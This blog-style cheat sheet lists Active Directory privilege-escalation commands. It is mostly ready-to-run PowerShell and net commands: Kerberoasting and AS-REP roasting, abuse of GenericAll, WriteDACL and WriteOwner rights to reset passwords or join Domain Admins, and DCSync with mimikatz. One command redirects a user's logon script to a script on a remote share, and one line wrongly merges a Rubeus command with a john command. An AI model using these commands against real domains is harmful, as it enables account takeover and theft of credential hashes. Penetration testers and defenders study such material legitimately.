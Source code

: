 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: Privilege Escalation Techniques
---
```


# ACL Abuse
Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

## GenericAll / GenericWrite / WriteProperty

### On a User
- **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
- **Targeted Kerberoasting**
    - Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    - Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    - Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
- **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### On a Group
- **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**

## Special Rights Abuse

1. GenericWrite on User
- Overwrite logon script path for the target user:
    ```powershell
    Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
    ```

2. AllExtendedRights
- **Change Password**
    ```bash
    net user <username> <password> /domain
    ```

- **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

3. Self-Membership

- **Add to Group**
```powershell
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

4. ExtendedRight on
- **User-Force-Change-Password (Password Reset)**
```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
```

5. WriteProperty
- **Add to Group**
```powershell
Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
```

6. WriteOwner
- **Change the object’s owner**
```powershell
Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
```
- **Check Owner**
```powershell
Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
```

7. WriteDACL
- **Grant Generic Permissions** (must be the owner)
```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

8. DCSync Attack 
- The user running the command must have Replicating Directory Changes permissions in Active Directory. This is typically assigned to domain admins or equivalent privileged accounts.

```powershell
lsadump::dcsync /domain:<Domain> /user:<User>
lsadump::dcsync /domain:example.com /user:administrator
```

## Kerberoasting
Kerberoasting targets accounts with Kerberos service tickets by exploiting service principal names (SPNs) and cracking the tickets offline.

### Find Service Accounts
- Using Active Directory:
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

- Using PowerView:
```powershell
Get-DomainUser –SPN
```

### Escalation
- Use `Rubeus` to Kerberoast service accounts supporting RC4 encryption.
```powershell
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
```

### Crack Tickets
- Use `john` to crack Kerberos tickets:
```bash
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

### Targeted Kerberoasting

- Find "Write" Permissions
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```
  
- Find SPN
```powershell
Get-DomainUser -Identity support1user | select serviceprincipalname
Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName
```

- Set-SPN
```powershell
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX'}
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX'}
	```

- Kerberoasting
```powershell
Rubeus.exe kerberoast /outfile:targetedhashes.txt john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```

### AS-REP Roasting
Find accounts without Kerberos preauthentication and request an AS-REP hash for offline cracking:
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
Invoke-ASREPRoast -Verbose
```



